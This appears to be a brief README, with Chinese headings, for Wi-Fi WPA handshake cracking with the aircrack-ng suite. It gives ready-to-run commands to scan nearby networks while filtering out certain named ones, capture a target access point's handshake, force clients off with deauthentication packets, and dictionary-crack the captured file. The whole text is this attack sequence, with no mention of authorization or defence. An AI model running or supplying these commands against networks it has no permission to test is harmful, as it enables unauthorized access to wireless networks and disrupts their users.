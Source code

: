 # air-crack

- 扫描信号

  ```sh
  airodump-ng -a --essid-regex "[^CAAS|CASTP|castp|caas|castp2|BRI_CAAS|DIRECT]" wlan0mon
  ```

  抓包

- ```sh
  airodump-ng -c 11 --bssid mac -w /root/shake wlan0mon
  ```

  ACK

  ```sh
  aireplay-ng -0 10 -a net-mac -c c-mac wlan0mon
  ```

  Crack

  ```sh
  aircrack-ng -w pass.txt -b mac ./shake-01.cap
  ```
